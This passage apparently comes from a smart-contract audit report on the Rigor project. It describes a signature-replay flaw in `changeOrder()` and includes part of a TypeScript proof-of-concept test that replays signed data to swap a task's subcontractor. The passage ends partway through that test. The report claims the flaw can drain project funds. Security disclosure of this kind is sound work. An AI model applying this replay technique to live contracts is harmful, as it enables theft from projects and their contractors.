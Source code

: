 ### Changing tasks costs/subcontractor by external users
This can also be used by external users (you don't need to be builder/GC/SC in order to run `changeOrder()`) to troll the system (This still requires the task to be changed at least twice, otherwise re-running `changeOrder()` with the same data would have no effect).

* Changing the task cost up or down, getting the SC paid a different amount than intended (if it goes unnoticed, or front-run the `setComplete()` function)
* Unapproving a task by setting a different SC or a price higher than available funds
    * The legitimate users can change it back, but the attacker can change it again, both sides playing around till someone gets tired :)


## Proof of Concept

Since the tests depend on each other, the PoC tests were created by adding them to the file `test/utils/projectTests.ts`, after the function `it('should be able to complete a task'` ( [Line 1143](https://github.com/code-423n4/2022-08-rigor/blob/5ab7ea84a1516cb726421ef690af5bc41029f88f/test/utils/projectTests.ts#L1143) ).

In the first test - a subcontractor is changed and then changed back.
In the second scenario a price is changed to the new price (that is higher than the total available funds, and therefore is unapproved) and then back to its original price (it can actually be any price that is not higher than the available funds).
In both cases I'm demonstrating how the project can be drained out of fund, 

```typescript

  type DataType = {
    types: string[];
    values: (string | number)[];
  };

  it('PoC change SC', async () => {



    const taskID = 1;
    let taskDetails = await project.getTask(taskID);
    const scBob = taskDetails.subcontractor;
    const scAliceSigner = signers[4];
    console.log({ scBob, alice: scAliceSigner.address });
    const newCost = taskCost; // same as old
    console.log(taskDetails);
    // await (await project.inviteSC([taskID], [signers[2].address])).wait();

    const changeToAliceData = {
      types: ['uint256', 'address', 'uint256', 'address'],
      values: [taskID, scAliceSigner.address, newCost, project.address],
    };
    const changeToAliceSignedData = await signData(changeToAliceData);

    await changeSC(changeToAliceSignedData[0], changeToAliceSignedData[1]);

    const changeToBobData = {
      types: ['uint256', 'address', 'uint256', 'address'],
      values: [taskID, scBob, newCost, project.address],
    };
    const changeToBobSignedData = await signData(changeToBobData);

    await changeSC(changeToBobSignedData[0], changeToBobSignedData[1]);

    const bobSigner = getSignerByAddress(signers, scBob);
    await (await project.connect(bobSigner).acceptInviteSC([taskID])).wait();

    // for some reason if you don't do this you get 'Mock on the method is not initialized' error
```